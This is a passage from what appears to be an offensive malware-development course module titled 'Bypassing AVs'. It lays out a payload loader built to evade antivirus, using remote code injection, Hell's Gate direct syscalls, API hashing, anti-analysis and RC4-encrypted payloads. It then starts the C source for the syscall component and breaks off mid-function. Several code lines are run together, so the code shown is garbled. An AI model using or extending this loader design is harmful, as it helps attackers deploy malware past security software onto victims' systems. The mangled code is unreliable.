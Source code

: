 81. Bypassing AVs[**81. Bypassing AVs**](https://maldevacademy.com/modules/81)
=============================================================

**Bypassing AVs**
-----------------

### **Introduction**

So far, numerous methods and techniques to create and execute a payload loader that can bypass a variety of software security programs have been demonstrated. This module will work to construct a feature-rich payload loader from the ground up to reinforce what has been taught in the previous modules.

Create an empty Visual Studio project and follow along to keep up with this module.

### **Payload Loader Features**

The implemented payload loader will have the following features:

* Remote code injection support
* Mapping injection using direct syscalls via Hell's Gate
* API Hashing
* Anti-Analysis functionality
* RC4 payload encryption
* Brute forcing the decryption key
* No CRT library imports

### **Hell's Gate Setup**

This loader utilizes payload injection via direct syscalls obtained using Hell's Gate. To begin, one must create `Structs.h`, `HellsGate.c` and `HellAsm.asm` files. These files include the necessary functions to execute direct syscalls. The `Structs.h` file is used to save Windows undocumented structures and is included in subsequent C files. It contains structure definitions such as `PEB`, `TEB`, and more, which are necessary for implementing Hell's Gate.

The `HellAsm.asm` file will be the same as the one from the [repository](https://github.com/am0nsec/HellsGate/blob/master/HellsGate/hellsgate.asm). As for `HellsGate.c`, it will have the following functions.

**HellsGate.c**


```
#include <Windows.h>#include "Structs.h"


PTEB RtlGetThreadEnvironmentBlock() {
#if _WIN64return (PTEB)__readgsqword(0x30);
#elsereturn (PTEB)__readfsdword(0x16);
#endif}


BOOL GetImageExportDirectory(PVOID pModuleBase, PIMAGE_EXPORT_DIRECTORY* ppImageExportDirectory) {
	// Get DOS header
	PIMAGE_DOS_HEADER pImageDosHeader = (PIMAGE_DOS_HEADER)pModuleBase;
	if (pImageDosHeader->e_magic != IMAGE_DOS_SIGNATURE) {
		return FALSE;
	}

	// Get NT headers
	PIMAGE_NT_HEADERS pImageNtHeaders = (PIMAGE_NT_HEADERS)((PBYTE)pModuleBase + pImageDosHeader->e_lfanew);
	if (pImageNtHeaders->Signature != IMAGE_NT_SIGNATURE) {
		return FALSE;
	}

	// Get the EAT
```